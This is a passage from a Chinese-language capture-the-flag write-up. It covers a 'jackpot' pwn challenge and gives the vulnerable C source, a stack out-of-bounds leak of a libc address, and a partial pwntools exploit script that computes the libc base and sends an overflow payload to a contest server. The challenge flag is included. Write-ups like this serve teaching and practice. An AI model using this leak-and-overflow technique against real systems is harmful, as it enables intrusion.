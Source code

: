     for i in range(43):
        print(chr(a1[i]%256),end='')
    ```

**取得 flag 的畫面：**
![Alt text](image/stateful_flag.png)

## pwn

### jackpot

- Flag：`AIS3{JUST_@_e4Sy_1NT_0V3RFlow_4nD_BUf_Ov3rFL0W}`

#### 解題流程與思路
**解題過程：**
1. 首先觀察可以發現，可以隨意得到 stack 某一個位置的值 `ticket_pool[number]`，然後可以 overflow stack `read(0, name, 0x100);`。
    ```cpp
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    apply_seccomp();
    char name[100];
    unsigned long ticket_pool[0x10];
    int number;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    puts("Lottery!!");
    printf("Give me your number: ");
    scanf("%d", &number);
    printf("Here is your ticket 0x%lx\n", ticket_pool[number]);
    printf("Sign your name: ");
    read(0, name, 0x100);
    ```

2. gdb 開進去可以發現 main base 是固定的不用 leak，也就可以拿到回到 read 的 address、bss (vmmap, jackpot.s)，再來透過 `ticket_pool[number]` leak return address (__libc_start_main)，即可算出 libc base，然後，dump 一下 stack (map.txt)，並 overflow 最大限度出去並 dump (map_after.txt)，算一下可以 return address 之後可以用的空間，依舊不足三個 syscall、'/flag'。
    ```python
    libc_offset = 0x29d90
    main_base = 0x0000000000400000
    read = 0x4013d4
    bss = 0x0404000 + 0x600
    r = remote('10.105.0.21', 12213)
    r.recvuntil(b"Give me your number: ")
    r.sendline(b'31')
    r.recvuntil(b"Here is your ticket ")
    libc_start_main = r.recvline().strip()
    print("libc_start_main", libc_start_main)
    libc_base = int(libc_start_main, 16) - libc_offset
    print("libc_base", hex(libc_base))
    r.recvuntil(b"Sign your name: ")
    payload = b'A' * 0x100
    r.send(payload.ljust(0x100, b'\x00'))
    ```
